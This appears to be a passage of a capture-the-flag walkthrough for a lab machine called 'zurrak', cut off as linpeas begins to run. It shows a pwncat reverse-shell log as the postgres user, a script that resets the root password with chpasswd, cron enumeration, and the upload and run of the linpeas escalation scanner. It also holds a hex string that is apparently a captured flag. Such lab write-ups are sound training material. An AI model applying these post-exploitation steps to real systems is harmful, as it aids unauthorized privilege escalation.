 ```bash
fe8f97f109ceb0362c95e60338c4c1a8
(remote) postgres@zurrak:/home/postgres$ ls -la
total 16
drwxr-xr-x 2 postgres postgres 4096 Oct 24 18:03 .
drwxr-xr-x 3 root     root     4096 Oct 20 19:06 ..
-rw------- 1 postgres postgres   28 Oct 24 16:47 emergency.sh
-rw-r--r-- 1 postgres postgres   33 Oct 20 20:23 user.txt
(remote) postgres@zurrak:/home/postgres$ cat emergency.sh 
echo "root:1234" | chpasswd
(remote) postgres@zurrak:/home/postgres$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
cat: /etc/cron.weekly: Is a directory
cat: /etc/cron.yearly: Is a directory
(remote) postgres@zurrak:/home/postgres$ cat crontab -l
cat: invalid option -- 'l'
Try 'cat --help' for more information.
(remote) postgres@zurrak:/home/postgres$ crontab -l
no crontab for postgres
(remote) postgres@zurrak:/home/postgres$ cd /tmp
(remote) postgres@zurrak:/tmp$ 
(local) pwncat$ lpwd
/home/kali/temp/zurrak
(local) pwncat$ lcd ..
(local) pwncat$ upload linpeas.sh
./linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 860.5/860.5 KB • ? • 0:00:00[05:30:36] uploaded 860.55KiB in 0.84 seconds                                                                                                   upload.py:76
(local) pwncat$                                                                                                                                             
(remote) postgres@zurrak:/tmp$ chmod +x linpeas.sh 
(remote) postgres@zurrak:/tmp$ ./linpeas.sh 
```
